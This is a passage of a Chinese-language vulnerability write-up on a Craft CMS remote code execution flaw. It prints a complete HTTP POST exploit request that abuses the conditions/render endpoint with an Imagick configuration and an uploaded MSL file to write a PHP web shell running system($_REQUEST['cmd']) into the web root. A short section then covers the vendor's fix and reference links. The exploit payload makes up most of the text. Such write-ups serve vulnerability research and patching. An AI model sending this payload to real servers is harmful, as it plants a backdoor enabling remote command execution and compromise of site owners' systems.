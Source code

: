 最后的请求如下：
```
POST /index.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: */*
Host: 192.168.111.178:8080
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------974726398307238472515955
Content-Length: 850

----------------------------974726398307238472515955
Content-Disposition: form-data; name="action"

conditions/render
----------------------------974726398307238472515955
Content-Disposition: form-data; name="configObject"

craft\elements\conditions\ElementCondition
----------------------------974726398307238472515955
Content-Disposition: form-data; name="config"

{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:/tmp/php*"}}}
----------------------------974726398307238472515955
Content-Disposition: form-data; name="image"; filename="poc.msl"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php system($_REQUEST['cmd']); ?&gt;"/>
<write filename="info:/var/www/html/craft/web/shell.php">
</image>
----------------------------974726398307238472515955--
```
虽然能成功写入，但是执行后会造成 **Segmentation fault (core dumped)** ，可能导致程序崩溃服务关闭，所以一般不建议使用该方法

参考：
[https://wx.zsxq.com/dweb2/index/topic_detail/411544512844188](https://wx.zsxq.com/dweb2/index/topic_detail/411544512844188)
[https://blog.calif.io/p/craftcms-rce](https://blog.calif.io/p/craftcms-rce)
[https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226)


## 漏洞修复
[https://github.com/craftcms/cms/commit/7359d18d46389ffac86c2af1e0cd59e37c298857](https://github.com/craftcms/cms/commit/7359d18d46389ffac86c2af1e0cd59e37c298857)
[https://github.com/craftcms/cms/commit/a270b928f3d34ad3bd953b81c304424edd57355e](https://github.com/craftcms/cms/commit/a270b928f3d34ad3bd953b81c304424edd57355e)

使用`Component::cleanseConfig`对传入的 config 进行处理
![](https://img-blog.csdnimg.cn/5d381cf36807427ab43909b2fc12508f.png)

移除所有以`on ` or `as ` 开头的键![](https://img-blog.csdnimg.cn/b7e813181e4449698bb250c3023bfc37.png)